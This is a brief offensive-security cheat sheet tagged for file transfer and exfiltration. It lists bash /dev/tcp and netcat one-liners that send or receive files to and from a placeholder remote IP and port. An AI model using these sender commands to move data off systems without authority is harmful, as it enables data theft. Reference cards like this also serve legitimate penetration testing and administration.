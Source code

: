 # FileTransfer-TCP

% file transfer, exfiltration, injecton

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 

## cat - receiver
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
cat < /dev/tcp/<ip>/<port> > <file>
```

## cat - sender
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
cat <file> > /dev/tcp/<ip>/<port>
```
## nc - receiver/client
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> > <file>
```

## nc - receiver/server
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <file>
```

## nc - sender/client
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file>
```

## nc - sender/server
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> < <file>
```
